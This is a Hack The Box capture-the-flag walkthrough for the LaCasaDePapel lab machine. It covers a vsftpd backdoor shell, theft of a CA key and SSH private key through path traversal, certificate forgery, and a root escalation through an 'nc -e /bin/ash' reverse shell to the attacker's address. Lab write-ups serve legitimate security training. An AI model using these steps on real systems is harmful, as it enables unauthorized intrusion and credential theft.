



# LaCasaDePapel

## User

### Scan
`nmap -sC -sV 10.10.10.131`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-20 17:14 GMT
Nmap scan report for 10.10.10.131
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.68 seconds
```
### FTP Backdoor
`vsftpd.3.2.4` returns some interesting search results. I tried running a Metasploit exploit that didn't work, but then I read up on the smiley-face backdoor. Apparently a backdoor was discovered in this version that would allow a user, `:)` to open a shell on port 6200 without authentication. So, try `ftp 10.10.10.130` and input a blank password. The `ftp` session will hang, but `nc 10.10.10.130 6200` should work. 

### PsyShell and Certificate Generation
Using the FTP backdoor gets us access to PsyShell, an interactive PHP environment. The `help` command is a good place to get started. There are a few commands available like `ls`, which will tell us if there are any predefined values. `ls` shows us that there is a value called `$tokyo`. `ls -la $tokyo` tells us that there is a sigining function that looks like it has something to do with SSL. Now is probably a good time to go check out the webpages and see why we might need to use this signing function.

`http://10.10.10.131` has an interesting authentication token QR code. I messed around with it for a little bit, but didn't get anywhere. However, the HTTPS version of the site requires a client certificate.



It seems like the `Tokyo` class from PsyShell might help us generate that certificate. It needs a Certificate Signing Request and a CA Certificate as parameters. To get a closer look at how the signing function works, we can use the `show` command.

NOTE: If you want to get a nicer shell, see if you can add your public key to the `dali` user's SSH `authorized_keys` file. When writing to a file with PHP, use the FILE_APPEND option to avoid overwriting other htb user keys. 



The source code shows us that the sign function simply uses OpenSSL to sign a certificate using a private key. We should be able to access it with:
```
$key = readfile('/home/dali/ca.key')
```
The key will be displayed for you to copy/paste to your own machine. Now we just need a CSR and a CA Certificate in order to generate a client certificate. [This](https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs) article has a great introduction to generating certificates with OpenSSL. Here are the steps for generating a signed certificate to access the HTTPS site:
1. Generate a key and CSR
```
openssl req -newkey rsa:2048 -nodes -keyout mykey.key -out mycsr.csr
```
2. Get CA Certificate from website

Go to `https://10.10.10.131` in Firefox, click on the lock icon > More Information > View > Details > Export. 

3. Generate signed certificate
```
openssl x509 -req -in mycsr.csr -CA cacert.crt -CAkey ca.key -CAcreateserial -out signed.crt -days 365 -sha256
```

4. Convert signed certificate into a format that Firefox can use
```
openssl pkcs12 -export -in signed.crt -inkey mykey.key -out signed.p12
```

5. Import certificate into Firefox

In Firefox, click on the hamburger menu > Preferences > Privacy & Security > View Certificates > Your Certificates > Import. Import the newly created .p12 file.

Firefox should then give the option to provide a certificate to the website and a new screen will appear.


### Local File Inclusion
Clicking on SEASON-1 or SEASON-2 will allow for the download of video files. The URL bar at the top will show `https://10.10.10.131/?path=SEASON-1`. This is usually a good place to test for [Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion). Mess around with the path and see if you can find anything interesting.

Changing the URL to `https://10.10.10.131/?path=../` shows that this box is clearly not validating the input and we can see the contents of a user's home directory. Including `user.txt`!



Unfortunately, we can't download the `user.txt` file like the videos. Since the path argument isn't validated, maybe the request to download the video files is also not validated. To intercept the request, [set up Burp](https://support.portswigger.net/customer/en/portal/articles/1783066-configuring-firefox-to-work-with-burp) to work with Firefox. You will have to add the generated certificate to Burp in Project Options > SSL > Client SSL Certificates to get it to work. 

Intercept has to be turned on, and then we can view the request generated by attempting to download a video file. At the top of the request we can see thefile is retrieved with `GET /file/U0VBU09OLTEvMDEuYXZp`. This looks like base 64 encoding, which we can test with:
```
echo 'U0VBU09OLTEvMDEuYXZp' | base64 -d
SEASON-1/01.avi
```
So if we want to attempt to download `user.txt`, we can encode the path and then make a request with burp.
```
echo -n "../user.txt" | base64
Li4vdXNlci50eHQ=
```
Copy that encoded file to Burp and watch the `user.txt` download take place!
```
4dcbd172fc9c9ef2ff65c13448d9062d
```

## Root

### SSH Key
Another file you may have seen is the `.ssh` folder in the same directory as `user.txt`. This folder contains an `id_rsa` file. This is significant because it is a private SSH key for passwordless login to the server. Using the same method as above, this file can be downloaded.
```
echo -n "../.ssh/id_rsa" | base64
Li4vLnNzaC9pZF9yc2E=
```
Now we have a private SSH key! If we're lucky, we might be able to finally get a shell on this box. Get back to PsyShell and see what users are available.
```
$users = glob('/home/*')
=> [
     "/home/berlin",
     "/home/dali",
     "/home/nairobi",
     "/home/oslo",
     "/home/professor",
   ]
```
We can try and SSH into each user with `ssh -i id_rsa username@10.10.10.131`. After trying each one, it turns out that this is the private key for the `professor` user and we now have an Almquist Shell on the box.  

### Exploiting Node
In the home folder of `professor` there is an interesting file, `memcached.ini`:
```
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```
This is interesting because `ps aux | grep nobody` makes it clear that this is being run every minute or so. It frequently shows up with a new pid. If we can get root to run a modified version of this file then we can own the box.

`ls -l` shows us that root owns the file and we cannot write to it. However, we could rename the file and make our own.
1. `mv memcached.ini memcached.ini.bak`
2. `nc -lvp 222` on the attacking machine
3. `vi memcached.ini` on the victim machine
```
[program:memcached]
command = sudo nc 10.10.XX.XX 2222 -e /bin/ash
```
Saving this new file and waiting for a little while should open a new shell as root on the attacking machine!
```
cat root/root.txt
586979c48efbef5909a23750cc07f511
```
